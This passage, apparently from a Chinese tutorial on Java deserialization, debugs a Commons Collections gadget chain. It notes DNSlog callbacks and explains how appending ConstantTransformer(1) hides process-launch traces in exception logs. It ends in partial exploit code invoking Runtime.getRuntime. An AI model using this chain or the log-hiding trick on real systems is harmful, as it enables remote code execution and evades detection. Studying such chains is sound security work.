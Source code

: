 成功收到请求如下-->

![](image-48.png)

## 小插曲

1.在调试 Payload 的时候，经常出现，还没有到`unSerializeObject("ser.bin");`这一步，命令就已经执行了，例如在这里下断点-->

![](image-90.png)

此时 DNSlog 平台还是会收到请求如下-->

![](image-48.png)

原因是：使用 Proxy 代理了 map 对象后，在任何地方执行 map 的方法就会触发 Payload 弹出计算器，所
以在本地调试代码的时候，由于调试器会在下面调用一些 toString 之类的方法，导致不经意间触发了
命令。

2.还有一点，也是后来看到 P 神的文章，ysoserial 中的 Transformer 数组，为什么最后会增加一个
`ConstantTransformer(1)`？

![](image-91.png)

P 神猜想可能是为了隐藏异常日志中的一些信息。如果这里没有
ConstantTransformer，命令进程对象将会被 LazyMap#get 返回，导致可以在异常信息里能看到这个
特征-->

![](image-92.png)

而增加一个 `ConstantTransformer(1) 在TransformChain`的末尾，异常信息将会变成
`java.lang.Integer cannot be cast to java.util.Set` ，隐蔽了启动进程的日志特征，修改代码测试一下-->

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;

public class Example {
    public static void main(String[] args) throws Exception {
        Class<?> clazz = Class.forName("java.lang.Runtime");
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(clazz),
                new InvokerTransformer(
                        "getMethod",
                        new Class[]{String.class, Class[].class},
                        new Object[]{"getRuntime", new Class[0]}
                ),
                new InvokerTransformer(
                        "invoke",
                        new Class[]{Object.class, Object[].class},
                        new Object[]{null, new Object[0]}
                ),
                new InvokerTransformer(
```